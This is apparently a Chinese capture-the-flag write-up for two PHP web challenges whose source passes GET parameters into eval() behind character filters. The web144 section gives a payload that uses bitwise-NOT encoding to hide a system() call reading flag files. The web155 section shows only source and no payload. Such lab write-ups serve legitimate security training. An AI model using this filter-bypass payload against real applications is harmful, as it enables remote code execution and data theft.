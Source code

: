 ### web144

```
highlight_file(__FILE__);
if(isset($_GET['v1']) && isset($_GET['v2']) && isset($_GET['v3'])){
    $v1 = (String)$_GET['v1'];
    $v2 = (String)$_GET['v2'];
    $v3 = (String)$_GET['v3'];

    if(is_numeric($v1) && check($v3)){
        if(preg_match('/^\W+$/', $v2)){
            $code =  eval("return $v1$v3$v2;");
            echo "$v1$v3$v2 = ".$code;
        }
    }
}

function check($str){
    return strlen($str)===1?true:false;
}
```

与前面几个题类似，将v1,v2,v3三个顺序重新调一下就好了

**payload**

```
?v1=1&v3=-&v2=(~%8c%86%8c%8b%9a%92)(~%8b%9e%9c%df%99%d5)
```



### web155

```
highlight_file(__FILE__);
if(isset($_GET['v1']) && isset($_GET['v2']) && isset($_GET['v3'])){
    $v1 = (String)$_GET['v1'];
    $v2 = (String)$_GET['v2'];
    $v3 = (String)$_GET['v3'];
    if(is_numeric($v1) && is_numeric($v2)){
        if(preg_match('/[a-z]|[0-9]|\@|\!|\+|\-|\.|\_|\$|\}|\%|\&|\;|\<|\>|\*|\/|\^|\#|\"/i', $v3)){
                die('get out hacker!');
        }
        else{
            $code =  eval("return $v1$v3$v2;");
            echo "$v1$v3$v2 = ".$code;
        }
    }
}
```

看了yu22x师傅的wp，妙！
